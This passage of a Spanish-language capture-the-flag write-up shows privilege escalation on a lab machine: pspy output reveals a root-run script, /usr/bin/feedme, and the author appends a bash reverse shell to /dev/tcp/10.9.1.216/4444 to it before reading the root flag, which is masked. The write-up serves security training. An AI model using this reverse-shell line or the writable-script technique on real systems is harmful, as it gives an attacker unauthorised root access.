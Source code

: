 - Procedemos a ejecutar el script y encontramos este binario  ***/bin/bash /usr/bin/feedme*** el cual podemos modificar:
  
~~~go
ollie@hackerdog:/tmp$ chmod +x pspy64
ollie@hackerdog:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
2022/04/21 03:51:20 CMD: UID=0    PID=2392   | /bin/bash /usr/bin/feedme 
2022/04/21 03:51:20 CMD: UID=0    PID=2390   | 
2022/04/21 03:51:20 CMD: UID=0    PID=231    | 
~~~

- Con el siguiente código modificamos el binario para que se ejecute una reverse shell como root:
  
~~~go
ollie@hackerdog:/usr/bin$ echo "/bin/bash -i >& /dev/tcp/10.9.1.216/4444 0>&1" >> /usr/bin/feedme
~~~

- Como usario root podemos listar la bandera root:

~~~go
[id]
root@hackerdog:~# id
id
uid=0(root) gid=0(root) groups=0(root)
---
[root flag]
root@hackerdog:~# cat root.txt
cat root.txt
THM{?????????}
root@hackerdog:~# 
~~~

---

  Eso es todo!

  Fuentes:
